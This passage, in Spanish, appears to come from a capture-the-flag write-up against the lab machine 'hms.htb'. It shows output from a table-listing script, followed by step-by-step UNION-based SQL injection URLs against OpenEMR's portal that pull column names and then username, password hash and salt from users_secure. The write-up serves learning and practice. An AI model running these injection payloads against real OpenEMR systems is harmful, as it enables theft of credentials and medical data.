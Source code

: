 ```bash
❯ python3 sqli_cache.py
El número de tablas a ver: 250
Tabla No 0: addresses
Tabla No 1: amc_misc_data
Tabla No 2: amendments
Tabla No 3: amendments_history
Tabla No 4: ar_activity
Tabla No 5: ar_session
Tabla No 6: array
Tabla No 7: audit_details
Tabla No 8: audit_master
Tabla No 9: automatic_notification
Tabla No 10: background_services
---
Tabla No 220: template_users
Tabla No 221: therapy_groups
Tabla No 222: therapy_groups_counselors
Tabla No 223: therapy_groups_participant_attendance
Tabla No 224: therapy_groups_participants
Tabla No 225: transactions
Tabla No 226: user_settings
Tabla No 227: users
Tabla No 228: users_facility
Tabla No 229: users_secure
Tabla No 230: valueset
Tabla No 231: version
Tabla No 232: voids
Tabla No 233: x12_partners
---
Tabla No 248: 
Tabla No 249:
```

Tenemos tablas que nos pueden llamar la atención, como **users** y **users_secure**.
- `http://hms.htb/portal/add_edit_event_user.php?eid=1 union select null,null,(select column_name from information_schema.columns where table_name="users_secure" and table_schema="openemr" limit 0,1),null-- -` Vemos que no le gusta al servidor, por lo que vamos a cambiar un poco la expresión.
- `http://hms.htb/portal/add_edit_event_user.php?eid=1 union select null,null,(select column_type from information_schema.columns where table_name="users_secure" and table_schema="openemr" limit 0,1),null-- -` Vemos que si nos acepta el tipo de dato de la columna, que para este caso es `bigint(20)`.
- `http://hms.htb/portal/add_edit_event_user.php?eid=1 union select null,null,(select concat(column_name,0x3a,column_type) from information_schema.columns where table_name="users_secure" and table_schema="openemr" limit 0,1),null-- -` Ahora podemos ver el nombre de la columna con el tipo de la misma separadas por dos puntos.
	- id
	- username
	- password
	- salt
	- last_update
	- password_history1
	- salt_history1
	- password_history2
	- salt_history2
- `http://hms.htb/portal/add_edit_event_user.php?eid=1 union select null,null,(select concat(username,0x3a,password,0x3a,salt) from users_secure limit 0,1),null-- -` Obtenemos los datos de la tabla en el formato **username:password:salt**.
